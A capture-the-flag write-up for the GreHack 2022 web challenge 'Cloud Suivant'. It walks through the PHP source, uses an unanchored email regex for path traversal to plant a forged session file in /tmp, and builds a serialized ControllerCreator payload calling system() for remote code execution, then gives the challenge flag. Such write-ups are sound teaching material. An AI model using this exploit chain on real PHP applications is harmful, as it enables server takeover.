






# Challenge

Cloud Suivant

# Category

Web

# Description

```
A company wanting to impose itself in the world of the cloud has created a new solution called "Cloud Suivant".

This one allows to upload files and to store them on the server.

You are mandated to audit their solution, find a vulnerability allowing you to take control of the server!

You will find attached to this challenge the source code of the application to audit.

docker-compose up -d --build

Flag format : GH22{}
```

# Solution

We can download the sources of the web application, and thus investigate the code.

Inside, the two folders `assets` and `config` are not interesting, we will directly look at the `core` folder which contains all the php code allowing the application to work.

To understand how the application works, we can look at the `index.php` file:

```php
<?php
require_once("core/controllers/ControllerCreator.php");
require_once("core/controllers/ControllerDownload.php");
session_start();
include("config/conf.php");
if($is_debug)
{
    error_reporting(E_ALL);
    ini_set("display_errors", 1);
}
$page = "/";
if(isset($_GET["page"]) && !empty($_GET["page"]))
{
    if(in_array($_GET["page"],$allowed_pages)) $page = $_GET["page"];
    else $page = "404";
}
new ControllerCreator($pages[$page],$_REQUEST);
```

Here, we notice the presence of controller, which I will talk about later. Then, we see that the application gets a page parameter, checks that it is in the allowed one (in the configuration file), if it is, then the controller `ControllerCreator` is called with that, as well as the variable $_REQUEST, which contains all the entries provided by the user.

In the `ControllerCreator` class, we see that the application performs an include on the page parameter provided to it, there is also another method to log user attempts, but this one is faulty.

So we can go to the application to start playing on it, when we get to it, we see this:



You can create an account, or upload files temporarily. So we will create an account and upload a first file:



We can see here several possibilities, we can download it, share it and delete it.

Let's go and see the source code that takes care of the creation of the accounts in a first step:

```php
[...]
if($_SERVER["REQUEST_METHOD"] === "POST")
{
    if([...]) //check that variable exists
        if(filter_var($_POST["email"], FILTER_VALIDATE_EMAIL)) //check for the email to be valid
        {
            [...] // others checks
            $sth = $db->prepare("INSERT INTO users VALUES(0,:e,:p)");
            $sth->bindValue(":e",htmlspecialchars($_POST["email"]));
            $sth->bindValue(":p",md5($_POST["password"]));
            $sth->execute();
            @mkdir("/var/data/".htmlspecialchars($_POST["email"]));
        }
}
[...]
```

We notice the use of PDO, so there is little chance that there is an SQL injection. On the other hand, we understand better how the application works, indeed, to save the users' files, it will create a folder in `/var/data` with the name of the email address provided, unfortunately, there is a check on the email address with the `FILTER_VALIDATE_EMAIL` flag which makes it impossible to exploit.

We could look at the upload function, but it is very classic and does not contain any real vulnerabilities.

But, in the application, there is another functionality, that of uploading a temporary file, so we'll go and see the code for that since it doesn't require to have created an account:

```php
if(preg_match('/[a-zA-Z0-9]+@[a-zA-Z0-9]+\.[a-zA-Z0-9]+/', $_POST["email"]))
{
    //checks that email does not exist in database
    @mkdir($upload_folder.$_POST["email"]);
    $name = preg_replace("/[^a-zA-Z0-9._-]+/", "",basename($_FILES["fileUpload"]["name"]));
    $location = $upload_folder.$_POST["email"]."/".$name;
    if(move_uploaded_file($_FILES["fileUpload"]["tmp_name"], $location))
    {
        $uniq_id = uniqid("cloudsuivant_");
        $sth = $db->prepare("INSERT INTO temp_files VALUES(0,:n,:u,:e)");
        $sth->bindValue(":n", htmlspecialchars($name));
        $sth->bindValue(":u",$uniq_id);
        $sth->bindValue(":e", htmlspecialchars($_POST["email"]));
        $sth->execute();
        $msgSuccess = "Votre fichier est accessible ici : /?page=temp_download&id=".$db->lastInsertId()."&uuid=".$uniq_id;
    }else $msgError = "Erreur lors du téléversement du fichier, veuillez réessayer.";
}
```

Here, we see that the operation is the same, except for one thing. Indeed, the email address is matched using the `preg_match` function, but this is badly implemented. 

In the regex, the start ($) and end (^) characters are missing, this means that if the pattern is found in what is sent by the user, the function will return true, for example :

```
php > echo preg_match('/[a-zA-Z0-9]+@[a-zA-Z0-9]+\.[a-zA-Z0-9]+/', "a@a.fr");
1

php > echo preg_match('/[a-zA-Z0-9]+@[a-zA-Z0-9]+\.[a-zA-Z0-9]+/', "a@a.fr/../../../../../a");
1
```

Then we see the use of mkdir(), so we will be able to write anywhere in the file system, moreover, we notice the name of the original file is kept by the application.

So we will make the following request:



If I attach to the docker to check:



Here, mkdir() will return a warning because the folder already exists, but this is not blocking the execution of the rest of the script, so we can directly write in /tmp.

We could think of going directly to write a webshell in /var/www/html, but the www-data user does not have the rights to perform this action.

In the docker, the PHP sessions are also stored in /tmp, this means that if we upload a file with the name `sess_wytakeover` in /tmp, we totally control the content of this one. This allows us to take control of the account of any user under the platform, but this is not interesting in our case, because we want to obtain a remote code execution.

For that, we will have to go back to the controllers :
- ControllerCreator.php
- ApplicationLogger.php

```php
//code of ApplicationLogger.php
<?php

class ApplicationLogger
{
    public $log_file;
    public $log_func;
    public $log_args;
    
    function __construct($msg, $log_file, $log_func)
    {
        if(!empty($log_func)) $this->log_func = $log_func;
        if(!empty($log_file)) $this->log_file = $log_file;
        if(!file_exists($this->log_file)) file_put_contents($this->log_file,"[+] File created\n",FILE_APPEND);
        if(!empty($msg)) $this->log_args = $msg;
        if(method_exists($this,$log_func)) call_user_func(array($this, $log_func),$this->log_args);
        else call_user_func($this->log_func, $this->log_args);
    }

    function info($msg)
    {
        file_put_contents($this->log_file,"[INFO] ".$msg."\n",FILE_APPEND);
    }

    function error($msg)
    {
        file_put_contents($this->log_file,"[ERROR] ".$msg."\n",FILE_APPEND);
    }
}
```

```php
//code of ControllerCreator.php
<?php

require_once("ApplicationLogger.php");
class ControllerCreator 
{
    public $page;
    public $log_file;
    public $log_func;
    public $msg;

    function __wakeup()
    {
        if(empty($this->msg) || empty($this->log_func) || empty($this->log_file))
        {
            $this->msg = "__wakeup() called on ControllerCreator";
            $this->log_func = "info";
            $this->log_file = "/var/security/security.log";
        }
        $this->logger = new ApplicationLogger($this->msg,$this->log_file, $this->log_func);
    }

    function __construct($page)
    {
        $this->page = $page;
        include($this->page);
    }
}
```

In the ControllerCreator code, we notice the presence of the magic function `__wakeup()`, this method is called when an object corresponding to ControllerCreator is recreated. In this function, we notice that it will initialize variables if they are not already initialized, allowing to call the `info` function of ApplicationLogger.

In the ApplicationLogger class, only the `__construct()` method is interesting, indeed, at the end of it, we can see that the application checks that the called method is defined, otherwise, the call to the `call_user_func` function will be different. This method allows you to call a method via its name, taking as a second parameter the arguments (in an array) that you want to pass to it.

One last thing to know before moving on to the final exploit, sessions in PHP are serialized and are deserialized as soon as we try to access a property of them, for example, in the application, when a user is logged in, his session object, on the file system, looks like this:

```
email|s:12:"test@test.fr"
```

The final goal of the exploit will be to play on this deserialization to be able to pass in the code of the `__wakeup()` function allowing to obtain our RCE.

There is a last problem, we have to find, in the application, a session attribute that we can overwrite without breaking the application allowing us to inject our payload in it.

So we're going to look again at the application code. In the `download.php` file which allows to download files for authenticated users, we notice the presence of this code :

```php
<?php
if($res_user[0][0] === $res[0][1])
{
    $lastDl = new ControllerDownload($res[0][0]);
    $_SESSION["lastDownloadFile"] = $lastDl;
    downloadFile($res[0][0],$_SESSION["email"]);
}
```

Here, we see that the application will save the last file downloaded by the user thanks to another class `ControllerDownload`, and store it in his session. The main purpose of this feature is to not make a user download the same file twice, but for us, this is our entry point for our deserialization exploit.

To create our serialized payload, we can create a php script to do so:

```php
<?php

class ControllerCreator 
{
    public $page = "";
    public $log_file = "/var/security/security.log";
    public $log_func = "system";
    public $msg = "ls /";
}

$c = new ControllerCreator();
print_r(serialize($c));

//O:17:"ControllerCreator":4:{s:4:"page";s:0:"";s:8:"log_file";s:26:"/var/security/security.log";s:8:"log_func";s:6:"system";s:3:"msg";s:4:"ls /";}
```

The serialization format of PHP sessions changes a little bit from the classical formats, indeed, it is in the form :

```
<nom propriété 1>|<valeur>;<nom propriété 2>|<valeur>
```

This gives us the following payload:

```
email|s:20:"worty@grehack2022.fr";lastDownloadFile|O:17:"ControllerCreator":4:{s:4:"page";s:0:"";s:8:"log_file";s:26:"/var/security/security.log";s:8:"log_func";s:6:"system";s:3:"msg";s:4:"ls /";}
```

We have to be careful here to use a defined email since the exploitable part where the deserialization is done requires to be authenticated.

We reuse our exploit to write a session in /tmp, we change our session cookie by "wortytakeover", and we get our RCE :



So we can go and get our flag back \o/ :



# Flag

`GH22{4rb1tr4ry_f1l3_wr1t3_t0_rc3_!!}`